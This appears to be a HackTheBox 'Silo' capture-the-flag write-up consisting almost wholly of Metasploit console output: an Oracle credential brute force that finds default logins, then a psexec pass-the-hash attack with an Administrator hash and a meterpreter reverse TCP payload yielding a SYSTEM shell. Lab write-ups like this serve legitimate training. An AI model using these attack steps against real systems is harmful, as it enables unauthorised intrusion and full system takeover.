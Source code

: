 ```yaml
---
title: "HackTheBox - Silo"
date: 2010-01-01T01:01:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
---
```


[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

root@kali:~# msfconsole

msf > use admin/oracle/oracle_login  
msf auxiliary(admin/oracle/oracle_login) > set rhost 10.10.10.82  
rhost => 10.10.10.82  
msf auxiliary(admin/oracle/oracle_login) > set sid XE  
sid => XE  
msf auxiliary(admin/oracle/oracle_login) > run

[*] Starting brute force on 10.10.10.82:1521...  
[+] Found user/pass of: scott/tiger on 10.10.10.82 with sid XE  
[*] Auxiliary module execution completed  
msf auxiliary(admin/oracle/oracle_login) >

msf exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

Name Current Setting Required Description  
---- --------------- -------- -----------  
RHOST 10.10.10.82 yes The target address  
RPORT 445 yes The SMB service port (TCP)  
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing  
SERVICE_DISPLAY_NAME no The service display name  
SERVICE_NAME no The service name  
SHARE ADMIN$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share  
SMBDomain . no The Windows domain to use for authentication  
SMBPass aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 no The password for the specified username  
SMBUser Administrator no The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description  
---- --------------- -------- -----------  
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)  
LHOST tun0 yes The listen address (an interface may be specified)  
LPORT 443 yes The listen port

Exploit target:

Id Name  
-- ----  
0 Automatic

msf exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.191:443  
[*] 10.10.10.82:445 - Connecting to the server...  
[*] 10.10.10.82:445 - Authenticating to 10.10.10.82:445 as user 'Administrator'...  
[*] 10.10.10.82:445 - Selecting PowerShell target  
[*] 10.10.10.82:445 - Executing the payload...  
[+] 10.10.10.82:445 - Service start timed out, OK if running a command or non-service executable...  
[*] Sending stage (179779 bytes) to 10.10.10.82  
[*] Meterpreter session 2 opened (10.10.14.191:443 -> 10.10.10.82:49165) at 2018-08-21 05:39:49 -0400

meterpreter > getuid  
Server username: NT AUTHORITY\SYSTEM  
meterpreter > shell  
Process 2508 created.  
Channel 1 created.  
Microsoft Windows [Version 6.3.9600]  
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>